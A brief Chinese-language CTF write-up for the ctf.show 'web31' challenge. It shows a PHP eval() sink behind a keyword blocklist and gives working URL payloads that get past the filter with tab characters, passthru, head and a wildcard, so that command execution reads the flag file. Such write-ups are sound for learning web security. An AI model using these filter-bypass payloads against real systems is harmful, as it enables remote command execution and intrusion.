


# web31

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

只要不触发关键词匹配导致拦截就可以

空格匹配的话，可以尝试使用`%09`也就是`Tab`来进行替换

```plaintext
https://39bfaef5-681e-432f-9797-5d74465f2b7f.challenge.ctf.show/?c=passthru("ls%09-lh");
```



那剩下的就很容易了

```shell
https://39bfaef5-681e-432f-9797-5d74465f2b7f.challenge.ctf.show/?c=passthru("head%09-n%0920%09fla*");

head -n 20 fla*
```


